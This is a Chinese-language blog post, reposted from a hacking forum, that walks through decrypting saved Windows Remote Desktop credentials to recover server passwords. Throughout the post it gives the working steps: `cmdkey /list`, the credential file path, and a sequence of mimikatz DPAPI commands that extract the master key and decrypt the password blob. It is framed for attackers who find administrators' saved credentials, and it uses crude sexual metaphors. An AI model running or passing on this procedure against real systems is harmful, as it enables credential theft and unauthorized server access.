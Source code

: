 ```yaml
---
layout: post
title: 破解远程终端凭据，获取服务器密码
subtitle: 2017/10/20
date: 2017-10-20
author: FR
header-img:
catalog: true
tags:
    - windows
    - crack
    - password
---
```

- **原文转自T00ls.net [【原文链接】](https://www.t00ls.net/articles-41926.html)**

测试环境：windows 10

道友们应该碰到过管理在本地保存远程终端的凭据，凭据里躺着诱人的胴体(服务器密码)，早已让我们的大棒饥渴难耐了。
但是，胴体却裹了一身道袍(加密)，待老衲操起法器将其宽衣解带。

![https://www.t00ls.net/attachments/month_1710/1710010133df4eed0bc854ab65.png](../img/2017-10-20/pjyczdpjhqfwqmm_01.png)

## 0x01 凭据管理器中查看Windows凭据：TERMSRV/1xx.xxx.xxx.xx2

![img/2017-10-20/pjyczdpjhqfwqmm_02.png](../img/2017-10-20/pjyczdpjhqfwqmm_02.png)

可通过命令行获取，执行: cmdkey /list
>注意:该命令务必在Session会话下执行，system下执行无结果。

## 0x02 凭据存储在用户目录下

C:\Users\<username>\AppData\Local\Microsoft\Credentials\*，图中名为"FF359429D6F19C64BA7D3E282558EEB5"的文件即为目标凭据:TERMSRV/1xx.xxx.xxx.xx2的存储文件

![img/2017-10-20/pjyczdpjhqfwqmm_03.png](../img/2017-10-20/pjyczdpjhqfwqmm_03.png)

## 0x03 执行

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5"`

![img/2017-10-20/pjyczdpjhqfwqmm_04.png](../img/2017-10-20/pjyczdpjhqfwqmm_04.png)

pbData是凭据的加密数据，guidMasterKey是凭据的GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}。

## 0x04 执行

`mimikatz privilege::debug sekurlsa::dpapi`

![img/2017-10-20/pjyczdpjhqfwqmm_05.png](../img/2017-10-20/pjyczdpjhqfwqmm_05.png)

根据目标凭据GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}找到其关联的MasterKey，这个MasterKey就是加密凭据的密钥，即解密pbData所必须的东西。

## 0x05 拿到了MasterKey,服务器密码便唾手可得。执行解密命令

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5 /masterkey:28d1f3252c019f9cxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx16dcec8e5dbf5cd0"`

![img/2017-10-20/pjyczdpjhqfwqmm_06.png](../img/2017-10-20/pjyczdpjhqfwqmm_06.png)

解密出来的CredentialBlob即为凭据TERMSRV/1xx.xxx.xxx.xx2的服务器密码。

衣带渐宽终不悔，为伊消得人憔悴。阿弥陀佛。

## 参考:
http://www.freebuf.com/articles/network/146460.html
